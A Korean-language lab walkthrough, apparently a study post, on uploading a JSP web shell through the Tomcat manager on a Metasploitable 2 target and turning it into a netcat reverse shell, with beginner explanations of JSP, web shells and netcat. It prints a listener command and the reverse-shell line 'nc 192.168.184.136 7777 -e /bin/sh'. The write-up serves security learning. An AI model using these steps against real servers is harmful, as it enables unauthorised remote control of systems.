# Tomcat의 Upload 취약점 분석


Tomcat의 관리자 페이지에 접속 하여 

test.war파일을 업로드 한다. 



Deploy를 눌러 활성화한다.



업로드가 된것을 확인한다.

test파일의 구성을 확인해보자.



shell.jsp확장자 파일이 있다.

#### **<mark>Jsp란?</mark>**

JSP(Java Server Pages) 

웹 페이지를 동적으로 생성하는 데 사용되는 Java 문서입니다. 

이는 웹 서버가 JSP 파일을 해석하고 HTML을 생성하여 사용자의 웹 브라우저로 전송하는 방식으로 작동합니다.

JSP는 **웹 애플리케이션을 생성**하는데 사용되는 서버 측 기술로, 동적인 웹 콘텐츠를 생성하는 데 사용됩니다. JSP는 HTML 태그와 JSP 태그를 모두 포함하며, **JSP 태그는 HTML 페이지에 Java 코드를 삽입하는 데 사용됩니다**.

비전공자에게 이해하기 쉽게 설명하면, JSP 파일은 웹 페이지를 만드는 데 사용되는 '레시피’와 같습니다. 이 '레시피’는 웹 서버가 읽어서 웹 페이지를 만들어내는 데 사용합니다. 이 때, JSP 파일 안에는 웹 페이지의 모양뿐만 아니라, 웹 페이지가 어떻게 동작해야 하는지에 대한 정보(즉, Java 코드)도 포함되어 있습니다.

따라서 JSP는 웹 페이지를 동적으로 만들 수 있게 해주는 강력한 도구입니다. (예를 들어, 사용자가 웹 사이트에 로그인하면, 웹 사이트는 사용자마다 다른 정보를 보여줄 수 있습니다. 이런 기능은 JSP와 같은 도구를 통해 구현할 수 있습니다.)

해당 test.war파일에 직접 접근해 보자.



jsp 파일을 실행시키기 위해 /shell.jsp 로 이동한다.

```
/shell.jsp
```

해당 shell.jsp파일은 웹쉘이다.



#### 

#### <mark>웹쉘이란?</mark>

웹 서버에 악의적인 코드나 스크립트를 업로드하여 공격자가 웹 서버를 원격으로 제어할 수 있게 하는 도구입니다. 

웹 쉘은 웹 서버의 뒷문(backdoor) 역할을 하여, 공격자가 웹 서버의 명령을 실행하거나 파일을 조작하고 데이터베이스에 접근할 수 있게 합니다.

웹 쉘은 보통 웹 서버에 취약점이 있을 때 공격자에 의해 설치됩니다. 이러한 취약점은 SQL 인젝션, 원격 파일 포함(RFI), 크로스 사이트 스크립팅(XSS) 등 다양한 방식으로 공격자에게 악용될 수 있습니다.

비전공자에게 이해하기 쉽게 설명하면, 웹 쉘은 공격자가 웹 서버를 원격으로 제어할 수 있게 해주는 '열쇠’와 같습니다. 이 '열쇠’를 통해 공격자는 웹 서버의 문을 열고 들어갈 수 있으며, 웹 서버 내부에서 원하는 작업을 수행할 수 있습니다. 그러나 이 '열쇠’는 웹 서버에 악의적인 목적으로 설치되므로, 웹 서버의 보안을 위협하게 됩니다. 따라서 웹 서버를 운영하는 사람들은 웹 쉘 공격을 방지하고, 만약 웹 쉘이 설치되었다면 이를 제거하는 데 주의를 기울여야 합니다.



해당 이미지에서 보이는 경로는   MSF-2의 경로와 동일하다.

 Launch command 버튼을 눌러 이동한다.



ps -aux 명령어를 입력하자.

```
ps -aux
```



하지만 쉘의 권한이 있다고 하더라도 웹에서 명령어를 지속적으로 입력하는 것은 어렵다.

웹이란 계속 새로고침을 하며   페이지를 보여주기 떄문이다.

이러한 문제를 해결하기 위해서는 명령어와 명령어의 합성으로 진행해야 한다.



공격자 입장에서 매우 불편한 상황이다. 

웹이라는 특성한 버퍼가 제안되어 있다.  웹에서 출력할 수 있는 명령어의 한계가 있다. 

해당 문제점을 해결하고 일반 터미널 환경에서 동작하듯이하는 방법을 구현한다.

#### <mark>**Netcat란?**</mark>

Netcat은 컴퓨터 네트워킹 유틸리티로, TCP나 UDP 연결을 통해 네트워크에서 데이터를 읽고 쓰는 데 사용됩니다. 

이 도구는 다른 프로그램이나 스크립트에 의해 쉽게 구동될 수 있는 신뢰할 수 있는 백엔드로 설계되었습니다.

Netcat은 다음과 같은 기능을 제공합니다

목표 호스트의 포트에 연결
특정 포트에서 들어오는 연결을 수신
포트 스캔
파일 전송
포트 수신
비전공자에게 이해하기 쉽게 설명하면, Netcat은 컴퓨터와 컴퓨터가 '통신’하는 방법을 제공하는 도구라고 할 수 있습니다. 이 도구를 사용하면 한 컴퓨터에서 다른 컴퓨터로 메시지를 보내거나, 파일을 전송하거나, 다른 컴퓨터의 메시지를 받을 수 있습니다. 그러나 이 도구를 사용하려면 컴퓨터 네트워킹에 대한 기본적인 이해가 필요합니다.

칼리리눅스 터미널에서 nc(netcat) -lvp 7777

```
sudo nc -lvp 7777
```

로컬에서 7777포트를 열어 리스닝하고 있다.


Tomcat 웹 Launch command 페이지로 이동한다.



```
nc 192.168.184.136 7777 -e /bin/sh
```

명령어를 전달하는 옵션 -e 우리는 쉘의 명령어를 전달해야만 하기 때문에 MSF의 쉘을 입력한다. 



---

[JSP File - What is a .jsp file and how do I open it?](https://fileinfo.com/extension/jsp)v

[Introduction to JSP - GeeksforGeeks](https://www.geeksforgeeks.org/introduction-to-jsp/)

[Guide to JavaServer Pages (JSP) | Baeldung](https://www.baeldung.com/jsp)

https://www.imperva.com/learn/application-security/web-shell/

[Web Shells: Types, Mitigation &amp; Removal](https://blog.sucuri.net/2024/04/web-shells.html)

[netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)

[Introduction to Netcat - GeeksforGeeks](https://www.geeksforgeeks.org/introduction-to-netcat/)
